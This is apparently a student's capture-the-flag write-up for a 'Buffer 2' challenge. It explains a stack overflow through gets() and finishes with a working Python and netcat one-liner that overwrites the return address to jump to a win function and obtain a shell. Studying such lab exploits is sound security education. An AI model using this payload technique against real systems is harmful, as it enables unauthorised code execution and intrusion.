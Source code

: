 ref: 1 | Buffer 2 | blind
===========================

General overview of problems faced
-------------------------------------
- Learned to use `objdump` to disassemble the program and retrieve the location of the win function
- Learned how to use gdb to get the length between the start of the buffer and the return function in order to calculate the overflow

List of vulnerabilities
--------------------
1. The input uses gets to take input into a fixed size buffer. The gets function does not require a max size for the user input, therefore you can overflow the buffer and overwrite the return address.

Steps to exploit
------------------
1. Use `objdump` to disassemble the binary and get the address of the win function
2. Enter 64 bytes of text + 12 extra bytes of overflow and then append the win function address in little endian format. This will overwrite the return address to point to the win function instead.
3. You now have a shell!

Script/Command used
------------------
```
<!-- Location to jump to: 0x80484cd -->
(python -c 'print(("A"*76)+"\xcd\x84\x04\x08")'; cat ) | nc localhost 5002
```
